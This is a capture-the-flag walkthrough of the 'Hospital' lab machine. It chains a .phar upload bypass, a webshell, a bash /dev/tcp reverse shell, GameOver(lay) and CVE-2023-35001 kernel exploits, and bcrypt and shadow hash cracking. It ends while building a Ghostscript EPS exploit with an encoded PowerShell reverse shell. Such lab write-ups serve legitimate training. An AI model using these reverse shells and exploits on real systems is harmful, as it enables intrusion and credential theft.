

# Hospital

```bash
TARGET=10.10.11.241
```

```bash
$ sudo nmap -v -sC -sV $TARGET
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-16 21:11 PDT
...
Nmap scan report for 10.10.11.241
Host is up (0.049s latency).
Not shown: 980 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-08-17 11:11:47Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
|_SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 924A68D347C80D0E502157E83812BB23
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Issuer: commonName=DC.hospital.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-16T11:07:00
| Not valid after:  2025-02-15T11:07:00
| MD5:   515c:2747:ee63:9c90:6b38:2355:95c0:27c5
|_SHA-1: b319:5382:3d35:e621:8ed1:b872:83b7:4379:291e:ed0c
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-08-17T11:12:36+00:00
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Login
|_Requested resource was login.php
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.55 (Ubuntu)
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2024-08-17T11:12:37
|_  start_date: N/A

NSE: Script Post-scanning.
Initiating NSE at 21:13
Completed NSE at 21:13, 0.00s elapsed
Initiating NSE at 21:13
Completed NSE at 21:13, 0.00s elapsed
Initiating NSE at 21:13
Completed NSE at 21:13, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.97 seconds
           Raw packets sent: 1984 (87.272KB) | Rcvd: 21 (908B)
```

We see many ports open here. And we also indication that we are running Windows and Linux. Maybe a VM or a container hosting Linux, or the other way around.

Let's add the names we found on the `nmap` output on `/etc/hosts`.

```bash
$ grep $TARGET /etc/hosts
10.10.11.241    DC.hospital.htb hospital.htb
```

Lets try to some basic enum on the AD

```bash
$ netexec smb $TARGET -u 'kali' -p '' --rid-brute
SMB         10.10.11.241    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [-] hospital.htb\kali: STATUS_LOGON_FAILURE
```

```bash
$ netexec smb $TARGET -u '' -p ''                
SMB         10.10.11.241    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [-] hospital.htb\: STATUS_ACCESS_DENIED
```

```bash
$ smbclient -N -L //$TARGET
session setup failed: NT_STATUS_ACCESS_DENIED
```

Not much here yet.

Lets try one on the `HTTPS port`.

```bash
$ curl https://$TARGET --insecure -I
HTTP/1.1 200 OK
Date: Sat, 17 Aug 2024 11:57:15 GMT
Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
X-Powered-By: PHP/8.0.28
Set-Cookie: roundcube_sessid=o242cjosq020raf53c0mpig585; path=/; secure; HttpOnly
Expires: Sat, 17 Aug 2024 11:57:15 GMT
Cache-Control: private, no-cache, no-store, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Last-Modified: Sat, 17 Aug 2024 11:57:15 GMT
X-Frame-Options: sameorigin
Content-Language: en
X-Robots-Tag: noindex, nofollow
Content-Type: text/html; charset=UTF-8
```

Per the session cookie name, it seems that this is the [Roundcube](https://github.com/roundcube/roundcubemail/tree/master).


## Internal VM - 192.168.5.2

And it seems we have another kind of webapp on the `port 8080`.

```bash
$ curl http://$TARGET:8080 -I                      
HTTP/1.1 302 Found
Date: Sat, 17 Aug 2024 12:34:07 GMT
Server: Apache/2.4.55 (Ubuntu)
Set-Cookie: PHPSESSID=23uiharn9v8bc88rir92bmaljp; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: login.php
Content-Type: text/html; charset=UTF-8
```


It seems that we have a folder called `/uploads` here, as if we try a random name, it returns `Not Found`, but when we try the uploads we get `Forbidden`.


We may try to enum other directories here later.

It seems that we can also try to enum users here, as when I tried to create a new user called `admin` it replied back informing that the user was already taken.

> This username is already taken.


We create an user and access the webapp. Its main page shows a file upload options.


For a test we can upload an image and see it on the `/uploads` folder we found earlier.


If we try to upload a `.php` file we are redirect to a failed page.



We could try other PHP extensions to see if we can upload anything else. [HackTricks - file upload](https://book.hacktricks.xyz/pentesting-web/file-upload) has a good list we can use.

```bash
$ cat php_ext.list    
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.pht
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.hphp
.ctp
.module
```

We can fuzz this list on any tool and see if we get any redirects to `success.php`.

In this case here I decide to use `Burp Intruder`.


It seems some of the extensions returned success. We only need one. Testing `.phar` returns the echo output we set on the uploaded file.

```bash
$ curl http://10.10.11.241:8080/uploads/test.phar
kali
```

We create a `shell.phar` file with a reverse shell php code and upload it.


But when we try to execute it, we get an error.

```bash
$ curl http://10.10.11.241:8080/uploads/shell.phar
<pre>DAEMONIZE: pcntl_fork() does not exists, moving on...
PROC_ERROR: Cannot start the shell
</pre>
```

To investigate this, we upload another code invoking `phpinfo` and see that `pcntl_fork` and other functions are disabled.


[HackTricks - PHP Useful Functions](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass) point out to a few scripts we could use to bypass the restrictions we have here. The [p0wny-shell](https://github.com/flozz/p0wny-shell/blob/master/shell.php) php webshell one can automatically check and bypass the following function if some of them be disabled.

We create a file with it and upload to the target using the site upload built in tool. As we access it, we get shell.

> http://10.10.11.241:8080/uploads/shell.phar


```bash
www-data@webserver:…/html/uploads# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
www-data@webserver:…/html/uploads# uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
www-data@webserver:…/html/uploads# cat /etc/os-release
PRETTY_NAME="Ubuntu 23.04"
NAME="Ubuntu"
VERSION_ID="23.04"
VERSION="23.04 (Lunar Lobster)"
VERSION_CODENAME=lunar
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=lunar
LOGO=ubuntu-logo
```

```bash
www-data@webserver:…/html/uploads# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:15:5d:00:8a:02 brd ff:ff:ff:ff:ff:ff
    inet 192.168.5.2/24 brd 192.168.5.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::215:5dff:fe00:8a02/64 scope link 
       valid_lft forever preferred_lft forever
```

```bash
www-data@webserver:…/html/uploads# grep "sh$" /etc/passwd
root:x:0:0:root:/root:/bin/bash
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
```

```bash
www-data@webserver:…/html/uploads# ls -lha /home/drwilliams
ls: cannot open directory '/home/drwilliams': Permission denied
```

At this point I lost connection and I noted that the shell file was not present any more on the target. I believe the machine has a process to remove the bad files or something like that.

I uploaded again the webshell and started a reverse shell to don't get kicked out again.

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
```

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'
```

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.241] 6578
bash: cannot set terminal process group (979): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$ 
```

```bash
www-data@webserver:/var/www/html/uploads$ ls ../
ls ../
config.php  fonts      js          register.php  uploads
css         images     login.php   success.php   vendor
failed.php  index.php  logout.php  upload.php
```

```bash
www-data@webserver:/var/www/html/uploads$ cat ../config.php
cat ../config.php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

```bash
www-data@webserver:/var/www/html/uploads$ mmysql -u root -p'my$qls3rv1c3!'
mysql -u root -p'my$qls3rv1c3!'
...
Server version: 10.11.2-MariaDB-1 Ubuntu 23.04
...
MariaDB [(none)]> 
```

```bash
MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| hospital           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.016 sec)
```

```bash
MariaDB [(none)]> use hospital;
use hospital;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

```bash
MariaDB [hospital]> show tables;
show tables;
+--------------------+
| Tables_in_hospital |
+--------------------+
| users              |
+--------------------+
1 row in set (0.000 sec)
```

```bash
MariaDB [hospital]> select * from users;
select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | admin    | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
|  2 | patient  | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
|  3 | kali     | $2y$10$UINIXmeTUZmfmBkYh2kpdu5gLYj7qRAsfZyRuFMb07PaOH1ejq8ye | 2024-08-20 12:24:59 |
+----+----------+--------------------------------------------------------------+---------------------+
3 rows in set (0.001 sec)
```

```bash
$ cat admin.hash    
$2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2
```

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash          
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (?)     
1g 0:00:00:00 DONE (2024-08-20 04:38) 2.127g/s 153.1p/s 153.1c/s 153.1C/s 123456..666666
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```bash
$ cat patient.hash 
$2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO
```

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt patient.hash                     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
patient          (?)     
1g 0:00:05:51 DONE (2024-08-20 04:47) 0.002845g/s 152.0p/s 152.0c/s 152.0C/s redbutterfly..paolos
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I tried these password in different places, but didn't find much.

### GameOver(lay) - CVE-2023-2640 and CVE-2023-32629

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; id")'
```

```bash
www-data@webserver:/var/www/html/uploads$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; id")'

uid=0(root) gid=33(www-data) groups=33(www-data)
```

If we change `id` at the end to `bash` we get our `root` shell.

```bash
www-data@webserver:/var/www/html/uploads$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; bash")'

root@webserver:/var/www/html/uploads#
```

```bash
root@webserver:/var/www/html/uploads# id

uid=0(root) gid=33(www-data) groups=33(www-data)
```

### [CVE-2023-35001](https://github.com/rafamarrara/CTFs/tree/main/Labs/CVE-2023-35001)

I cloned this [PoC exploit](https://github.com/synacktiv/CVE-2023-35001)

```bash
$ git clone https://github.com/synacktiv/CVE-2023-35001    
Cloning into 'CVE-2023-35001'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 0), reused 9 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), 13.02 KiB | 833.00 KiB/s, done.
```

```bash
$ cd CVE-2023-35001
```

```bash
$ ls
go.mod  go.sum  main.go  Makefile  README.md  src
```

Compiled it.

```bash
$ make
go build
go: downloading golang.org/x/sys v0.0.0-20211205182925-97ca703d548d
go: downloading github.com/google/nftables v0.0.0-20220611213346-a346d51f53b3
go: downloading github.com/vishvananda/netns v0.0.0-20180720170159-13995c7128cc
go: downloading github.com/mdlayher/netlink v1.4.2
go: downloading github.com/josharian/native v0.0.0-20200817173448-b6b71def0850
go: downloading github.com/mdlayher/socket v0.0.0-20211102153432-57e3fa563ecb
go: downloading golang.org/x/net v0.0.0-20211209124913-491a49abca63
gcc -Wall -Wextra -Werror -std=c99 -Os -g0 -D_GNU_SOURCE -D_DEFAULT_SOURCE -D_POSIX_C_SOURCE=200809L src/wrapper.c -o wrapper
zip lpe.zip exploit wrapper
  adding: exploit (deflated 42%)
  adding: wrapper (deflated 83%)
```

Transfered the files `exploit` and `wrapper` to the target.

```bash
$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...
```

```bash
root@webserver:/tmp$ wget 10.10.14.8:8181/exploit
--2024-08-22 10:02:25--  http://10.10.14.8:8181/exploit
Connecting to 10.10.14.8:8181... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3137336 (3.0M) [application/octet-stream]
Saving to: ‘exploit’
exploit             100%[===================>]   2.99M  1.13MB/s    in 2.6s    
2024-08-22 10:02:28 (1.13 MB/s) - ‘exploit’ saved [3137336/3137336]
```

```bash
root@webserver:/tmp$ wget 10.10.14.8:8181/wrapper
--2024-08-22 10:02:37--  http://10.10.14.8:8181/wrapper
Connecting to 10.10.14.8:8181... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16304 (16K) [application/octet-stream]
Saving to: ‘wrapper’
wrapper             100%[===================>]  15.92K  --.-KB/s    in 0.09s   
2024-08-22 10:02:38 (175 KB/s) - ‘wrapper’ saved [16304/16304]
```

```bash
$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...
10.10.11.241 - - [20/Aug/2024 05:04:29] "GET /exploit HTTP/1.1" 200 -
10.10.11.241 - - [20/Aug/2024 05:04:41] "GET /wrapper HTTP/1.1" 200 -
```

Changed its permissions and executed the `exploit`.

```bash
www-data@webserver:/tmp$ chmod +x exploit wrapper

www-data@webserver:/tmp$ ./exploit
./exploit
[+] Using config: 5.19.0-35-generic
[+] Recovering module base
[+] Module base: 0xffffffffc0592000
[+] Recovering kernel base
[+] Kernel base: 0xffffffffb0600000
[+] Got root !!!
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
# cat /etc/shadow | grep '\$'
cat /etc/shadow | grep '\$'
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

```bash
$ cat shadow.hashes 
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt shadow.hashes 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@#        (drwilliams)     
1g 0:00:00:19 DONE (2024-08-20 05:39) 0.05007g/s 10768p/s 10768c/s 10768C/s sexyss..pakimo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## Main Target - 10.10.11.241

```bash
$ netexec smb $TARGET -u 'drwilliams' -p 'qwe123!@#' 
SMB         10.10.11.241    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [+] hospital.htb\drwilliams:qwe123!@#
```

```bash
$ netexec smb $TARGET -u 'drwilliams' -p 'qwe123!@#' --shares
SMB         10.10.11.241    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [+] hospital.htb\drwilliams:qwe123!@# 
SMB         10.10.11.241    445    DC               [*] Enumerated shares
SMB         10.10.11.241    445    DC               Share           Permissions     Remark
SMB         10.10.11.241    445    DC               -----           -----------     ------
SMB         10.10.11.241    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.241    445    DC               C$                              Default share
SMB         10.10.11.241    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.241    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.241    445    DC               SYSVOL          READ            Logon server share
```

```bash
$ netexec smb $TARGET -u 'drwilliams' -p 'qwe123!@#' --rid-brute
SMB         10.10.11.241    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [+] hospital.htb\drwilliams:qwe123!@# 
SMB         10.10.11.241    445    DC               498: HOSPITAL\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.241    445    DC               500: HOSPITAL\Administrator (SidTypeUser)
...
SMB         10.10.11.241    445    DC               1601: HOSPITAL\drbrown (SidTypeUser)
SMB         10.10.11.241    445    DC               1602: HOSPITAL\drwilliams (SidTypeUser)
SMB         10.10.11.241    445    DC               3101: HOSPITAL\Loggers (SidTypeAlias)
```

No access to WinRM.

```bash
$ netexec winrm $TARGET -u 'drwilliams' -p 'qwe123!@#'         
WINRM       10.10.11.241    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:hospital.htb)
WINRM       10.10.11.241    5985   DC               [-] hospital.htb\drwilliams:qwe123!@#
```

After more enumeration we find out that drwilliams' credential works on the webmail tool.


```bash
Needle designs for Darius Simion.
Contact photo
From drbrown@hospital.htb on 2023-10-23 15:40
Details Headers
Dear Lucy,

I wanted to remind you that the project for lighter, cheaper and
environmentally friendly needles is still ongoing 💉. You are the one in
charge of providing me with the designs for these so that I can take
them to the 3D printing department and start producing them right away.
Please make the design in an ".eps" file format so that it can be well
visualized with GhostScript.

Best regards,
Chris Brown.
😃
```

It seems Dr. Chris Brown is waiting for a `.eps` file to run with Ghostscript.

### [CVE-2023-36664 - Ghostscript - command injection](https://github.com/rafamarrara/CTFs/tree/main/Labs/CVE-2023-36664)

Generate a payload.


Create a malicious file using the following [PoC exploit](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection).

```bash
$ python3 CVE_2023_36664_exploit.py --generate --filename file01 --extension eps --payload "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOAAiACwAOQAwADAAMgApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEA